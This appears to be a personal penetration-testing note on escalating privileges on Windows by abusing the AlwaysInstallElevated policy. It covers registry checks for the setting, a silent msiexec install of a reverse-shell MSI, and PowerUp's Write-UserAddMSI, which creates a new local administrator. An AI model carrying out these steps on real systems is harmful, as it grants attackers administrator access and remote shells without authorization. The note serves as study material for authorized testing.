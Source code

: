 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### 1st Method

**Detection**

Open command prompt and type: 

```command prompt - windows
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

From the output, notice that “AlwaysInstallElevated” value is 1.  

In command prompt type: 

```command prompt - windows
reg query HKCU\Software\Policies\Microsoft\Windows\Installer  
```

From the output, notice that “AlwaysInstallElevated” value is 1.

Extra step: Run the following to look for any conditions.
```powershell - target
get-applockerpolicy -effective | select -expandproperty rulecollections
```

In this example, the malicious msi file would need to go in the `C:\Administrator` path.

![[Pasted image 20220927101417.png]]

**Exploitation**

[[1._Reverse Shells (WIN)#msi]]

Place ‘reverse.msi’ in `C:\Temp`.  

Open command prompt and type: 

```command prompt - windows
msiexec /quiet /qn /i C:\<PUT_THE_ENTIRE_PATH>\reverse.msi
```

#### 2nd Method
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

![[Pasted image 20220207104341.png]]

```powershell - windows
Write-UserAddMSI
```

Now you will see a UserAdd file in the same directory as the PowerUp file.

![[Pasted image 20220207104500.png]]

Open the UserAdd file.

Fill in details, click create.

```command prompt - windows
net localgroup administrators
```

See our new user is now listed there.

